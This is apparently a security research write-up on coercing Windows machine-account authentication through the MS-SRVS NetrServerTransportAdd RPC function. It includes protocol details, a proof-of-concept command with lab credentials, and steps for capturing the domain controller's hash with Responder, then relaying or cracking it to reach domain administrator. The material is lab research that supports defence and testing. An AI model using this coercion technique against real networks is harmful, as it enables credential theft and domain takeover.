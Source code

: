 # MS-SRVS - Remote call to NetrServerTransportAdd (opnum 25)

## Summary

+ **Protocol**: [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9)

+ **Protocol UUID**: 4b324fc8-1670-01d3-1278-5a47bf6ee188

+ **Protocol version**: 3.0

+ **SMB Named pipe**: `\PIPE\srvsvc`

+ **Function name**: [`NetrServerTransportAdd`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/440e3c7e-0880-4bf5-bd6f-5df8915739fe)

+ **Function operation number**: `25`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\srvsvc` and bind to the desired [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol (with uuid `4b324fc8-1670-01d3-1278-5a47bf6ee188` and version `3.0`) in order to perform remote procedure calls to functions in the [`MS-SRVS`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\srvsvc` This pipe is connected to the protocol [[MS-SRVS]: Server Service Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9) and allows to call RPC functions of this protocol. We will then call the remote [`NetrServerTransportAdd`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/440e3c7e-0880-4bf5-bd6f-5df8915739fe) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
NetrServerTransportAdd('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
NET_API_STATUS NetrServerTransportAdd(
   [in, string, unique] SRVSVC_HANDLE ServerName,
   [in] DWORD Level,
   [in] LPSERVER_TRANSPORT_INFO_0 Buffer
 );
```

## References

+ Documentation of protocol [MS-SRVS]: Server Service Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/accf23b0-0f57-441c-9185-43041f1b0ee9

+ Documentation of function `NetrServerTransportAdd`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-srvs/440e3c7e-0880-4bf5-bd6f-5df8915739fe